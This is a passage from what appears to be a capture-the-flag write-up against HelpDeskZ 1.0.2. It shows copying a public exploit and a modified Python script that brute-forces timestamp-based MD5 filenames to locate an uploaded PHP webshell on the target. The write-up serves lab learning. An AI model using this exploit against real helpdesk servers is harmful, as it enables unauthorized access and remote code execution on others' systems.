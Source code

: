 #### Preparing the script

The script will brute force all possible obfuscated filenames to reveal where our webshell will be located.

Let’s copy the exploit into our directory.

{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/help/payloads]
└─$ cp "$(locate php/webapps/40300.py)" .                  
                                                                                                                         
┌──(iwo㉿kali)-[~/boxes/help/payloads]
└─$ ls
40300.py
{% endhighlight %}

#### Retrieving the obfuscated webshell

We have to update the exploit script, so it works without any errors.
- We add the missing parentheses after print functions
- We encode the string before hashing it
- We use time library instead of datetime for clarity
- We search for our payload for the past 60 minutes instead of 5 minutes

{% highlight python %}
import hashlib
import sys
import requests
import time

print('Helpdeskz v1.0.2 - Unauthenticated shell upload exploit')

if len(sys.argv) < 3:
    print("Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0]))
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

try:
    r = requests.get(helpdeskzBaseUrl)

    # Gets the current time of the server to prevent timezone errors
    currentTime = int(time.time())

    for x in range(0, 60*60):
        plaintext = fileName + str(currentTime - x)
        md5hash = hashlib.md5(plaintext.encode()).hexdigest()

        url = helpdeskzBaseUrl + md5hash + '.php'
        response = requests.head(url)
        if response.status_code == 200:
            print('Found!')
            print(url)
            sys.exit(0)

except Exception as e:
    print(f"An error occurred: {e}")

print('Sorry, I did not find anything')
{% endhighlight %}
